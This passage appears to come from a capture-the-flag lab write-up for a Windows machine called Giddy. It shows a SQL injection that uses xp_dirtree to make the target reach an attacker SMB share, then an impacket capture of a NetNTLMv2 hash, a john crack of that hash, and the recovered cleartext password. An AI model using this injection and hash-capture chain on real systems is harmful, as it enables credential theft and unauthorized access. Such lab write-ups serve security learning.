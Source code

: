 There is a second point of injection in `product.aspx`, `productsubcategoryid`.

## Initial Access

We can use `xp_dirtree` to try to get a hash. Start an SMB server and execute the query.

```shell
https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18;%20EXEC%20MASTER.sys.xp_dirtree%20%27\\10.10.14.17\kali\test%27
```

```shell
$ impacket-smbserver -smb2support kali .
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.104,49710)
[*] AUTHENTICATE_MESSAGE (GIDDY\Stacy,GIDDY)
[*] User GIDDY\Stacy authenticated successfully
[*] Stacy::GIDDY:aaaaaaaaaaaaaaaa:a2460a71e3840477bcdba3394bf65d21:0101000000000000801b394ec4dbdb0109baf7b5a3abbf04000000000100100079006e0049006f004a005200680058000300100079006e0049006f004a005200680058000200100043005700410067007a0062006c0068000400100043005700410067007a0062006c00680007000800801b394ec4dbdb01060004000200000008003000300000000000000000000000003000007c1be546a3f4e42191147ba215b5e89f3f388bf71cc4bc9a355f1bce1c1765ba0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003700000000000000000000000000
```

Using `john`:

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash  
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)     
1g 0:00:00:01 DONE (2025-06-12 20:10) 0.6250g/s 1680Kp/s 1680Kc/s 1680KC/s xabat..x9831915x
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

`Stacy:xNnWo6272k7x`

Testing credentials with `nxc`:

![](assets/Pasted%20image%2020250612201356.png)
